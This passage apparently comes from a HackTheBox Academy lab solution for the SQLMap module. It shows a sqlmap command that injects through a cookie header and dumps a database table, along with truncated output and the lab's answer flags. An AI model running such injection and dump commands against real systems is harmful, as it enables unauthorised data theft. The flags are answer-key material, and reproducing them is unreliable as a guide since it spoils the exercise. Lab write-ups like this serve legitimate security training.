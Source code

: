 Answer: `HTB{700_much_c0n6r475_0n_p057_r3qu357}`

# Running SQLMap on an HTTP Request

## Question 2

### "What's the contents of table flag3? (Case #3)"

Students first need to navigate to the website's root page of the spawned target and then click on "Case #3" to notice that they need to exploit the vulnerable cookie header `id`:

![[HTB Solutions/CPTS/z. images/96ee9cd387f07c073f74d24440334bc6_MD5.jpg]]

Thus, the `sqlmap` command will be as follows:

Code: shell

```shell
sqlmap -u 'http://STMIP:STMPO/case3.php' -H 'Cookie: id=*' --batch --dump
```

```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sqlmap -u 'http://206.189.24.232:30991/case3.php' -H 'Cookie: id=*' --batch --dump

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.6.8#stable}
|_ -| . [)]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[*] starting @ 17:23:43 /2022-09-29/

<SNIP>

custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] Y
[17:23:43] [WARNING] it seems that you've provided empty parameter value(s) for testing. Please, always use only valid

[17:23:46] [INFO] (custom) HEADER parameter 'Cookie #1*' is 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)' injectable

<SNIP>

[17:25:14] [INFO] fetching columns for table 'flag3' in database 'testdb'
[17:25:14] [INFO] retrieved: 'id','int(11)'
[17:25:14] [INFO] retrieved: 'content','varchar(512)'
[17:25:14] [INFO] fetching entries for table 'flag3' in database 'testdb'                       
Database: testdb
Table: flag3
[1 entry]
+----+------------------------------------------+
| id | content                                  |
+----+------------------------------------------+
| 1  | HTB{c00k13_m0n573r_15_7h1nk1n6_0f_6r475} |
+----+------------------------------------------+

<SNIP>
```
